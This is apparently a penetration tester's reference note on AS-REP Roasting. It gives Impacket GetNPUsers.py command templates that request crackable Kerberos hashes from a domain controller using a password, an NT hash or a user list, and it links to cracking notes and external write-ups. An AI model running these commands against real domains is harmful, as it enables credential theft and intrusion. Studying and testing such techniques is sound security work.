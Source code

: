 # Unix Shell

## 01 - Impacket

> [!IMPORTANT] Conditions
> Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage#^0c9a3c|John The Ripper]] or [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/Hashcat/Usage#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

Request a Kerberos 5, etype 23, AS-REP hash from an NP user account.

```
$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetNPUsers.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

---
## References

### Hacktricks

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.wiki/en/windows/active-directory-methodology/asreproast.html)

### Hacking Articles

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

### Pentestlab

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)